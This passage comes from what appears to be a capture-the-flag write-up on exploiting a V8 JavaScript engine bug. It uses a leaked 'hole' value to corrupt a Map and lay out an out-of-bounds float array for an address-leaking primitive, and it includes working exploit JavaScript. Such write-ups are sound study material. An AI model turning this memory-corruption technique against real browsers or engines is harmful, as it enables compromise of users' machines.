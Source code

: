 So now, the plan is to get our `oob_array` as a float array, then create an object right after that contains the object that we want to read the address.

![addrof](images/addrof.png)

So here, we want to know the address in memory of `JS Object`, we put it as an attribute of `object` to have a pointer to `JS Object`. Then we just have to read the correct index from `oob_array` to have the pointer as a float, we therefore have the address of `JS Object` :-)

<hr>

**Note**:

You may noticed the `tag` attribute in the object, don't be that hurried! Everything is done on purpose 😛

<hr>

Let us modify our exploit to get this setup:

```js
var vuln_set = new Set();

var map = new Map();
map.set('Ruulian', 8);
map.set(vuln_set.hole(), 0x8);
map.delete(vuln_set.hole());
map.delete(vuln_set.hole());
map.delete("Ruulian");

map.set(0x18, "Ruulian");

var nop = new Array(1);

var oobArray = [];
oobArray.push(1.1);

var object = {
    "tag": 0xdead,
    "leak": 0xbeef,
};


map.set("1", "Ruulian");
```

